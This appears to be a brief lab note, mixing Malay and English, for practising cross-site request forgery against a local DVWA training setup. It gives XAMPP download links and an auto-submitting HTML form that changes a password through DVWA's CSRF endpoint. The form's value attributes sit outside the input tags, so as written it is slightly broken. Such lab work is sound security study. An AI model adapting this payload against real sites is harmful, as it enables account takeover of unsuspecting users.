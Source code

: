 XAMPP FOR WINDOWS
https://downloadsapachefriends.global.ssl.fastly.net/8.1.6/xampp-windows-x64-8.1.6-0-VS16-installer.exe?from_af=true

XAMPP FOR LINUX
https://downloadsapachefriends.global.ssl.fastly.net/8.1.6/xampp-linux-x64-8.1.6-0-installer.run?from_af=true

XAMPP FOR OS X
https://downloadsapachefriends.global.ssl.fastly.net/8.1.6/xampp-osx-8.1.6-0-vm.dmg?from_af=true

CSRF DVWA
Nak tgk contoh script DVWA
https://www.invicti.com/web-vulnerability-scanner/vulnerabilities/cross-site-request-forgery-in-login-form/

Script Contoh CSRF Request Custom
<html>
    <body>

        <form action="http://localhost:8080/DVWA-master/DVWA-master/vulnerabilities/csrf/?" method="GET">
            New password:<br />
            <input type="hidden" AUTOCOMPLETE="off" name="password_new"> value=test123<br />
            Confirm new password:<br />
            <input type="hidden" AUTOCOMPLETE="off" name="password_conf"> value=test123<br />
            <br />
            <input type="hidden" value="Change" name="Change">

        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
 *Atau dekat bahagian burp suite, ada generate CSRF Poc.
